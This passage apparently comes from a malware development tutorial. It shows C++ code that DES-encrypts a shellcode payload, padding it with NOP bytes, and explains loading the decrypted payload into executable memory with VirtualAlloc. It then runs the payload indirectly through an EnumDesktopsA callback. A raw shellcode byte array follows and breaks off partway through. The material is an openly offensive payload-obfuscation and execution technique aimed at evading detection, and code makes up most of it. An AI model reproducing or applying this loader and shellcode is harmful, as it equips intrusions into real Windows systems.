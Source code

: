 ```cpp
  for (int i = 7; i >= 0; i--) {
    block[i] = (output >> (i * 8)) & 0xFF;
  }
}
```

For example, consider `des_encrypt_block`. How it works? The input block is permuted using `IP_TABLE`. Then the `64-bit` block is divided into `32-bit` left (`L`) and right (`R`) halves. And we doing `16` rounds of Feistel operations. In each round:
- The Feistel function is applied to the right half.    
- The left half is XORed with the Feistel result.    
- The halves are swapped.    

The final block is recombined and permuted using `FP_TABLE`.    

The next function is encrypts the entire payload by splitting it into `8-byte` blocks and encrypting each block:     

```cpp
// function to encrypt the payload
void des_encrypt_payload(unsigned char *payload, int payload_len, uint64_t key) {
  uint64_t round_keys[16];
  generate_round_keys(key, round_keys);

  int i;
  for (i = 0; i < payload_len / BLOCK_SIZE; i++) {
    des_encrypt_block(payload + i * BLOCK_SIZE, round_keys);
  }
  int remaining = payload_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, payload + (payload_len / BLOCK_SIZE) * BLOCK_SIZE, remaining);
    des_encrypt_block(pad, round_keys);
    memcpy(payload + (payload_len / BLOCK_SIZE) * BLOCK_SIZE, pad, remaining);
  }
}
```

As you can see, this function ensures that all blocks are processed, including padding for the last block if necessary.    

The `des_decrypt_payload` function decrypts the payload and prints it to verify successful decryption.     

In the `main` function, the decrypted payload is loaded into memory using `VirtualAlloc` with `PAGE_EXECUTE_READWRITE` permissions, the `EnumDesktopsA` API is called with a pointer to the loaded payload. [This is a way](/tutorial/2022/06/27/malware-injection-20.html) to attempt indirect execution of the decrypted payload:    

```cpp
// example usage
int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
```